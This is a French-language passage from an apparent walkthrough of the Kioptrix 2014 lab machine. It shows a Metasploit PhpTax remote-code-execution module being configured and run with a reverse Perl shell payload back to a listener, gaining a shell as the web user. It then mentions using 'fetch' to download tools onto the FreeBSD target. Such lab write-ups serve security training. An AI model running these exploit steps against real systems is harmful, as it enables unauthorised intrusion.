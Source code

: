 Une petite recherche sur le web et on apprend qu'il existe un module *Metasploit* pour une faille d'exécution de code dans ce même logiciel. Il faut juste croiser les doigts pour que *Metasploit* s'identifie avec le bon User-Agent sans quoi on va devoir éditer quelques fichiers.  

```plain
msf exploit(phptax_exec) > show options

Module options (exploit/multi/http/phptax_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        Use a proxy chain
   RHOST      192.168.1.53     yes       The target address
   RPORT      8080             yes       The target port
   TARGETURI  /phptax/         yes       The path to the web application
   VHOST                       no        HTTP server virtual host

Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.3      yes       The listen address
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   PhpTax 0.8

msf exploit(phptax_exec) > exploit

[*] Started reverse handler on 192.168.1.3:4444 
[*] 192.168.1.538080 - Sending request...
[*] 192.168.1.53 - Command shell session 1 closed.  Reason: Died from EOFError
[*] Command shell session 1 opened (127.0.0.1 -> 192.168.1.53:11601) at 2014-04-08 22:24:37 +0200
[*] Command shell session 2 opened (192.168.1.3:4444 -> 192.168.1.53:33921) at 2014-04-08 22:24:38 +0200

id
uid=80(www) gid=80(www) groups=80(www)
```

Bingo !  

En revanche les backdoors MSF pour Linux/BSD ne sont pas terribles : on perd l'environnement à chaque fois (en particulier le répertoire courant) et on ne dispose pas de support du terminal :(   

Qui plus est on est sur un système FreeBSD (*FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0*) sur lequel il n'y a ni *curl*, ni *wget*, ni *w3m*, ni *links*... ni *Python* arghh !  

Heureusement il y a une commande baptisée *fetch* qui correspond à un *wget* très basique : sauvés !  
